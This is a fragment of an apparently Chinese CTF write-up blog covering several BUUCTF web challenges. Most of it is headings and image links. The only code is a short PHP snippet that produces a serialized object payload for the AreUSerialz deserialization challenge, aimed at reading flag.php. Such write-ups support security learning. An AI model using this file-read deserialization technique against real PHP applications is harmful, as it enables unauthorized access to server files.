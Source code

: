 ![img](https://img-blog.csdnimg.cn/2f428166c3e440bc8c2bc3f256f55e8c.png)



 [[ZJCTF 2019\]NiZhuanSiWei_borrrrring的博客-CSDN博客](https://blog.csdn.net/borrrrring/article/details/117546772)



## [极客大挑战 2019]HardSQL

### 

## [MRCTF2020]Ez_bypass

![img](https://img-blog.csdnimg.cn/cfd5fee641e74d99a811ac4a43f3eed8.png)



![img](https://img-blog.csdnimg.cn/24faa22ebd6b4d3ca1778d0643c1babd.png)





##  [网鼎杯 2020 青龙组]AreUSerialz

```php
<?php
class FileHandler{
    public $op=2;
    public $filename="flag.php";
    public $content="12345";
}
$flag=new FileHandler;
print(serialize($flag));
?>
```



![img](https://img-blog.csdnimg.cn/487c91536f754391abe18f780d3c632e.png)



![img](https://img-blog.csdnimg.cn/2628bbef491a447495b6285ff482cbcb.png)





## [SUCTF 2019]CheckIn

![img](https://img-blog.csdnimg.cn/cd7649149ceb470da1aae87a79356c63.png)



![img](https://img-blog.csdnimg.cn/9d4b27444fb147ff8c7fdc1a6e3e73d0.png)
